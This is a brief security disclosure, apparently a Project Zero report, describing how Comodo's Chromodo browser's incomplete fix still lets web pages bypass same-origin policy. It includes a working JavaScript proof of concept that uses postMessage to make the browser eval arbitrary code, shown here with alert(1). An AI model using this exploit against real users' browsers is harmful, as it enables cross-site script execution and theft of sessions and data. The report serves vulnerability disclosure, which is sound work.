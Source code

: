 # Comodo "Chromodo" Browser disables same origin policy, Effectively turning off web security

#### Reported by taviso@google.com, Feb 2 2016

Comodo's fix for [issue 704](https://github.com/Metnew/uxss-db/tree/master/chromodo/0-704) was incomplete, it's trivial to make the exploit work again like this:

```javascript
window.postMessage(
	JSON.stringify({
		command: "callOuterFunction",
		params: {func: "eval", arguments: ["alert(1)"]}
	}),
	"*"
)
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=713
